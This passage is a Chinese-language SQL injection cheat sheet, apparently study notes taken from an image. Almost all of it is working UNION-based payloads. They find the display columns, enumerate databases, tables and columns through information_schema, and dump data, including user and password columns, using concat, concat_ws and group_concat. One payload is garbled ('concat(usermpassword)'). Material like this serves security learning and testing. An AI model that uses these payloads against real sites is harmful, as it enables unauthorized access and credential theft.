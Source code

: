   //将多条查询语句结果合并成一个结果集
  查询语句1
  union
  查询语句2
  union
  查询语句3
  
  //判断显示位
  1'union select 1,2 --+
  -1'union select 1,2 --+		//使用-1来使union前半语句无查询返回值
  
  //查看数据库信息
  user()	//返回当前使用数据库的用户
  version() //返回当前数据库版本
  database() //返回当前使用的数据库名字
  
  //查看表及列名(系统内置数据库information_schema存储其它所有数据库信息)
  schema表:存放所有数据库中的表信息
  tables表:存储数据库中的表信息
  columns表:存储数据库中的列信息,包括表有多少列
  
  //显示所有数据库的信息并显示数据库名
  -1'union select schema_name,2 from information_schema.schemata --+
  
  -1'union select database(),2#
  
  //获取数据库为 liuyanban 的所有信息并显示表名
  -1'union select table_name,column_name from information_schema.tables where table_schema='liuyanban' --+
  
  //选取数据库为 liuyanban 表为 liuyan 的所有字段并显示表名和字段名
  -1'union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' --+
  ```

- 字符串拼接

- ```sql
  //concat(),将多个字符串链接成为一个字符串
  -1'union select 1,concat(id,email_id),3 from emails --+
  
  //concat_ws(),将多个字符串连接成一个字符串,可以指定分割符
  -1'union select 1,concat_ws('_',id,email_id),3 from emails --+
  
  //group_concat(),将多行结果连接成一组
  -1'union select 1,group_concat(email_id),3 from emails --+
  ```

- 获取详细信息

- ```sql
  1'union select 1,concat(usermpassword) from users --+
  1'union select 1,concat_ws("_",user,password) from users --+
  
  //获取数据库列表
  -1'union select schema_name,2 from information_schema.schemata --+
  